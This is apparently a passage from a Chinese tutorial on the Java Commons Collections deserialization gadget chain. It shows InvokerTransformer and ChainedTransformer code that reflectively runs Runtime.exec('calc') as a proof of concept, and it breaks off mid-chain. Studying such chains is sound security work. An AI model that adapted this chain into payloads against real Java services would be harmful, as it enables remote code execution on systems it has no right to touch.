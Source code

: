 也就是说相当于调用a类的b方法,传入的类型由第二个参数控制,传入的值由第三个三处控制

我们可以这样使用它来执行 `exec`

```java
// 构造一个 transformer，它会在 transform 时调用 input.exec("calc")
InvokerTransformer transformer = new InvokerTransformer(
    "exec",                    // 要调用的方法名
    new Class[]{String.class}, // 方法参数类型
    new Object[]{"calc"}       // 实际参数
);
```

所以可以用下面方式弹出计算器

```java
Runtime runtime = Runtime.getRuntime();
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
```

虽然`InvokerTransformer`能实现单一方法调用，但要完成`Runtime.getRuntime().exec("calc")`，需要分三步执行：

1. 获取`Runtime.class`（作为调用`getMethod`的基础）；
2. 调用`Runtime.class.getMethod("getRuntime")`获取`getRuntime`方法的反射对象；
3. 调用该方法的`invoke`获取`Runtime`实例；
4. 最终调用实例的`exec`方法。

单一`InvokerTransformer`无法完成多步调用，因此需要一个能将多个`Transformer`按顺序串联执行的工具类 ——`ChainedTransformer`。

### ChainedTransformer

`ChainedTransformer`的核心功能是将多个`Transformer`组成调用链，前一个`Transformer`的输出作为下一个的输入。其`transform`方法源码逻辑如下：

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

基于此，我们可以构造三个`InvokerTransformer`组成链条：

```java
// 1. 从Runtime.class中获取getRuntime方法
Transformer t1 = new InvokerTransformer(
    "getMethod",
    new Class[]{String.class, Class[].class},
    new Object[]{"getRuntime", new Class[0]}
);

// 2. 调用getRuntime方法（静态方法，第一个参数为null）
Transformer t2 = new InvokerTransformer(
    "invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]}
);

// 3. 调用Runtime实例的exec方法
Transformer t3 = new InvokerTransformer(
    "exec",
    new Class[]{String.class},
    new Object[]{"calc"}
);

// 串联三个Transformer
Transformer chain = new ChainedTransformer(new Transformer[]{t1, t2, t3});
```

